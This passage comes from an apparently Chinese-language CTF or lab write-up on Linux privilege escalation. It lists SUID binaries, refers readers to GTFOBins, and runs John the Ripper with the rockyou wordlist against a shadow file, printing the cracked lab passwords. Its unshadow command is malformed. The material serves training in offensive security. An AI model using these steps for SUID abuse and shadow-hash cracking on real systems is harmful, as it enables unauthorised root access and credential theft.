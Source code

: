 ```shell
       81     44 -rwsr-xr-x   1 root     root               44664 Mar 22  2019 /snap/core18/1885/bin/su
       99     27 -rwsr-xr-x   1 root     root               26696 Mar  5  2020 /snap/core18/1885/bin/umount
     1698     75 -rwsr-xr-x   1 root     root               76496 Mar 22  2019 /snap/core18/1885/usr/bin/chfn
     1700     44 -rwsr-xr-x   1 root     root               44528 Mar 22  2019 /snap/core18/1885/usr/bin/chsh
     1752     75 -rwsr-xr-x   1 root     root               75824 Mar 22  2019 /snap/core18/1885/usr/bin/gpasswd
     1816     40 -rwsr-xr-x   1 root     root               40344 Mar 22  2019 /snap/core18/1885/usr/bin/newgrp
     1828     59 -rwsr-xr-x   1 root     root               59640 Mar 22  2019 /snap/core18/1885/usr/bin/passwd
     1919    146 -rwsr-xr-x   1 root     root              149080 Jan 31  2020 /snap/core18/1885/usr/bin/sudo
     2006     42 -rwsr-xr--   1 root     systemd-resolve    42992 Jun 11  2020 /snap/core18/1885/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     2314    427 -rwsr-xr-x   1 root     root              436552 Mar  4  2019 /snap/core18/1885/usr/lib/openssh/ssh-keysign
```

并且介绍了一个在线列表：https://gtfobins.github.io/，用以对比可以利用的程序

对于shadow中密码哈希的破解
```shell
unshadow ./wordlists/rockyou.txt shadow.txt

┌──(randark㉿kali)-[~]
└─$ john --wordlist=./wordlists/rockyou.txt shadow.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (karen)     
Password1        (user2)     
test123          (gerryconway)     
3g 0:00:00:01 DONE (2023-01-13 16:49) 1.754g/s 10778p/s 15569c/s 15569C/s chatty..sweetgurl
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

这个环节的靶机，其重点就在base64了
![[Pasted image 20230113165434.png]]

# Task 8 Privilege Escalation: Capabilities
